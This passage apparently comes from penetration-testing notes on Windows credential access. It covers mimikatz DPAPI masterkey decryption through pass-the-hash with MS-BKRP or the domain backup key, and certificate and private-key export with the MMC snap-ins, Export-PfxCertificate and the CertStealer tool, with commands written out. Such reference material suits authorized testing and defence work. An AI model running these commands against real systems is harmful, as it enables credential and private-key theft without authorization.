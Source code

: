 | Knowledge of the specific **domain** user **`NTLM` hash** and a network connection to a Domain Controller. | Uses the user's `NTLM` hash to replace the `Logon Session` in a process's `Access Token`, in order to access resources over the network using the provided user identity. Then leverages the `Microsoft BackupKey Remote Protocol (MS-BKRP)` `MSRPC` interface of a Domain Controller to request the decryption of the required `DPAPI` `MasterKey` (by design functionality, needed for password renewal and support of smart cards). | Identification of the required `MasterKey` (`guidMasterKey`): <br/> `mimikatz# dpapi::<MODULE> /in:<BLOB_PATH>` <br/> <br/>  Refer to the `Windows - Lateral movement` note for TTP to locally or remotely start a process using the user's `NTLM` hash. Under the newly created process, decryption of the required `MasterKey` through a `MS-BKRP` request to a Domain Controller: <br/> `mimikatz.exe "dpapi::masterkey /in:<MASTER_KEY_PATH> /rpc" exit` <br/> <br/> Decryption of the specified blob, with the according `mimikatz` module, using the required `MasterKey`: <br/> `mimikatz# token::elevate` <br/>  `mimikatz# dpapi::<MODULE> /in:<BLOB_PATH> /masterkey:<MASTER_KEY>` |
| Knowledge of the `DPAPI` `Domain Backup Key`. | Uses the `DPAPI` `Domain Backup Key` to decrypt the `DPAPI` `MasterKeys` of domain users in order to decrypt the specified `DPAPI` blob. | Identification of the required `MasterKey` (`guidMasterKey`): <br/> `mimikatz# dpapi::<MODULE> /in:<BLOB_PATH>` <br/> <br/> Decryption of the required `MasterKey` using the `DPAPI` `Domain Backup Key`: <br/> `mimikatz.exe "privilege::debug" "token::elevate" "dpapi::masterkey /in:<MASTER_KEY_PATH> /pvk:<BACKUP_KEY_PRIVATE_KEY_FILE>" exit` <br/> <br/> Decryption of the specified blob, with the according `mimikatz` module, using the required `MasterKey`: <br/> `mimikatz# token::elevate` <br/>  `mimikatz# dpapi::<MODULE> /in:<BLOB_PATH> /masterkey:<MASTER_KEY>` |

###### Certificates retrieval

Certificates installed on the local system can be retrieved either through the
Windows `Crypto APIs` or directly by decrypting the certificate files on disk
(encrypted using `DPAPI`).

*Certificate export using Windows Crypto APIs*

The `Microsoft CryptoAPI (CAPI)` or the more recent
`Cryptography API: Next Generation (CNG)` Windows `APIs` interact with the
certificate store and can be used to export locally installed certificates.

Certificates with exportable private key can simply be retrieved as password
protected `.pfx` files through an interactive session using the `certmgr.msc` (for user certificates) or `certlm.msc` (for machine certificates) snap-ins.
The  snap-ins can be loaded using the `Microsoft Management Console (MMC)`
built-in utility:

```
mmc.exe -> Add/Remove Snap-in (Ctrl + M) -> Selection of one or multiple chosen snap-in -> Certificates
  -> My User account / Computer Account
    -> Certificates -> Select the certificate store (such as Personal)
      -> Right click the certificate to export -> All Tasks -> Export...
        -> Check "Yes, export the private key"
```

The `Export-PfxCertificate` PowerShell cmdlet or the
[`CertStealer` C# utility](https://github.com/TheWover/CertStealer) may be used
as well:

```Powershell
# Built-in PowerShell cmdlets.
# The certificate store can be either the local machine store or the current user store.
$certiticate_store = "CurrentUser\My\"
$certiticate_store = "LocalMachine\My\"

# Enumerates the certificates in the specified certificate store.
Get-ChildItem -Recurse Cert:\$certiticate_store | Format-List Thumbprint,Issuer,Subject,EnhancedKeyUsageList,HasPrivateKey,NotBefore,NotAfter

# Exports the specified certificate as a password protected pfx file.
$sstring = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
Export-PfxCertificate -Cert Cert:\$certiticate_store\<CERTIFICATE_THUMBPRINT> -FilePath <OUT_PFX_FILE> -Password $sstring

# Exports all the certificates in the specified store in a single output file. In order for the exports to work, all certficates must be exportable.
$sstring = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
Get-ChildItem -Path Cert:\$certiticate_store | Export-PfxCertificate -FilePath <OUT_PFX_FILE> -Password $sstring

# CertStealer C# utility.
# Enumerates all the certificates for the various local certificate stores.
CertStealer.exe --list

# Enumerates the certificates in the specified certificate store for either the current user or the local machine.
CertStealer.exe --name <user | local> --store <My | CA | <STORE_NAME>> --list

# Export the specified certificate.
CertStealer.exe --password <PASSWORD> --export [pfx] <CERTIFICATE_THUMBPRINT>
```
